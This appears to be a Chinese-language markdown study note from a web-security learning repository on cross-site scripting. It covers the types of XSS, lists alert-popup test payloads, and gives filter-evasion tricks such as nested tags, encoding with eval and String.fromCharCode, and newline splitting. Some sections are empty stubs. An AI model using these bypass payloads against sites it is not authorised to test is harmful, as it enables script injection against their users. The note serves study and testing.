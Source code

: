 ## Cross-Site Scripting  
[同源策略](https://github.com/shinmao/Web-Security-Learning/blob/master/XSS/Same-Origin%20Policy.md)    
1. reflected xss (非持久型):    
  
2. stored xss (持久型):  
Forum或者留言板中, 在文本中加入script. (前端可能用ajax讀取內容  
  
3. DOM xss:   
注意: reflective型 以及 stored型 才會與server有互動，因為server需要解析惡意代碼，而DOM型則是完全由客戶端js執行。  

### XSS Vulnerability exists?
這裡先不談XSS探針...  
我習慣直接注入sciprt語句作測試，常見語句如下:  
```js
<script>alert(/1/);<script>
<script>a=prompt;a(1)</script>
<img src=1 onmouseover=alert(1)>
<img src=1 onerror=confirm(1)>
<img src="javascript:alert(1);">
<a href=1 onload=alert(1)>hi</a>
```
從上面我可以大致推斷攻擊代碼多為直接彈窗，或者觸發事件!  

### XSS and Cookie  

### 常見限制 < 對抗手勢
* filter 對一些危險標籤做過濾  
  * 大小寫混用  
  * 一次過濾繞過 e.g.```<scr<script>ipt>```  
  * 不如換個方式不使用到限制字符 e.g.```<img src=1 onerror=alert(1)>```
* encode 轉譯危險標籤  
  * url encode: % + ASCII(hex) ```%3Cscript%3E```  
  補充js常見處理函式: ```escape()/unescape(), encodeURL()/decodeURL(), encodeURLComponent()/decodeURLComponent()```  
  * html encode  
  * unicode encode: %u + ASCII(hex)  
  * ascii encode  
  ```js
  eval(String.fromCharCode(97,108,101,114,116,40,49,41))
  // <script>alert(1)</script>
  ```
  String.fromCharCode() 將unicode字碼轉換成字串 [Manual](https://www.w3schools.com/jsref/jsref_fromCharCode.asp)  
  eval() 執行參數中的js語句 [Manual](https://www.w3schools.com/jsref/jsref_eval.asp)  
* length limit  
  * 外部引入自己的script ```<script src=".js"></script>```  
* 未過濾\n類符號  
```js
<img src="javas
cript:
alert(/1/);">
```  
### Reference
1. The Web Application Hacker's Handbook
